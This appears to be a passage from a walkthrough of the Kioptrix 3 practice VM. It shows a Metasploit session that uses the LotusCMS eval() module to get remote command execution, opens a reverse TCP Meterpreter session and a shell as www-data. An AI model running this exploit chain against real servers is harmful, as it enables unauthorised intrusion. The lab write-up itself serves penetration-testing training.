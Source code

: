 #### Method 2: LotusCMS eval()

Although I'm not a fan of using metasploit for those VMs it was too tempting...  

```console
root@kali:~# msfconsole  
msf > search lotuscms  
...  
Matching Modules  
================  
  
   Name                              Disclosure Date  Rank       Description  
   ----                              ---------------  ----       -----------  
   exploit/multi/http/lcms_php_exec  2011-03-03       excellent  LotusCMS 3.0 eval() Remote Command Execution  
  
  
  
msf > use exploit/multi/http/lcms_php_exec  
  
msf exploit(lcms_php_exec) > show options  
  
Module options (exploit/multi/http/lcms_php_exec):  
  
   Name     Current Setting  Required  Description  
   ----     ---------------  --------  -----------  
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]  
   RHOST                     yes       The target address  
   RPORT    80               yes       The target port  
   SSL      false            no        Negotiate SSL/TLS for outgoing connections  
   URI      /lcms/           yes       URI  
   VHOST                     no        HTTP server virtual host  
  
  
Exploit target:  
  
   Id  Name  
   --  ----  
   0   Automatic LotusCMS 3.0  
  
  
  
msf exploit(lcms_php_exec) > set URI /  
URI => /  
  
msf exploit(lcms_php_exec) > set RHOST kioptrix3.com  
RHOST => kioptrix3.com  
  
msf exploit(lcms_php_exec) > run  
  
[*] Started reverse TCP handler on 192.168.1.69:4444   
[*] Using found page param: /index.php?page=index  
[*] Sending exploit ...  
[*] Sending stage (34122 bytes) to 192.168.1.70  
[*] Meterpreter session 1 opened (192.168.1.69:4444 -> 192.168.1.70:32943) at 2016-12-21 00:55:22 -0500  
  
meterpreter > shell  
Process 6991 created.  
Channel 0 created.  
whoami  
www-data  
```    
